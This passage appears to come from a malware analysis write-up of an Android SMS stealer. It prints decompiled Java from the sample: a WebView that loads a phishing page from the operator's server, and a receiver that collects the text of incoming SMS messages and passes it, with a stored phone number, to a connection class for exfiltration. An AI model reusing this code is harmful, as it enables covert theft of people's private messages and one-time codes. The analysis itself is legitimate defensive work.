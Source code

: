 ```java
        webView.loadUrl("https://eblaqie.org/pishgiri");  
    }  
}
```

Again, we start with `onCreate`. It sets the layout to a layout called `web`:

```xml
<?xml version="1.0" encoding="utf-8"?>
<RelativeLayout xmlns:android="http://schemas.android.com/apk/res/android" xmlns:app="http://schemas.android.com/apk/res-auto" android:layout_width="4294967295" android:layout_height="4294967295">
  <WebView android:id="type1/2131165433" android:layout_width="4294967295" android:layout_height="4294967295"/>
</RelativeLayout>
```

This layout only contains a WebView. A WebView allows to display content from the internet inside a layout. After setting the layout, the `onCreate` function loads the URL `https://eblaqie.org/pishgiri`. It would have been interesting to see what's on there, but again because the C2 is down we can't see it.
Our final component to analyze is the SMS receiver (`MyReceiver`):

```java
package ir.siqe.holo;  
  
import android.content.BroadcastReceiver;  
import android.content.Context;  
import android.content.Intent;  
import android.content.SharedPreferences;  
import android.os.Bundle;  
import android.telephony.SmsMessage;  
   
public class MyReceiver extends BroadcastReceiver {   
    public void onReceive(Context context, Intent intent) {  
        int i = 0;  
        SharedPreferences sharedPreferences = context.getSharedPreferences("info", 0);  
        SharedPreferences.Editor edit = sharedPreferences.edit();  
        Bundle extras = intent.getExtras();  
        String str = com.androidnetworking.BuildConfig.FLAVOR;  
        String str2 = str;  
        if (extras != null) {  
            Object[] objArr = (Object[]) extras.get("pdus");  
            int length = objArr.length;  
            SmsMessage[] smsMessageArr = new SmsMessage[length];  
            while (true) {  
                str2 = str;  
                if (i >= length) {  
                    break;  
                }  
                smsMessageArr[i] = SmsMessage.createFromPdu((byte[]) objArr[i]);  
                str = ((str + "\r\n") + smsMessageArr[i].getMessageBody().toString()) + "\r\n";  
                i++;  
            }  
        }  
        if (str2.contains("سایت شب")) {  
            edit.putString("lock", "off");  
            edit.commit();  
        }  
        String str3 = str2;  
        if (str2.contains("\n")) {  
            str3 = str2.replaceAll("\n", " ");  
        }  
        new connect(sharedPreferences.getString("phone", "0"), str3, context);  
    }  
}
```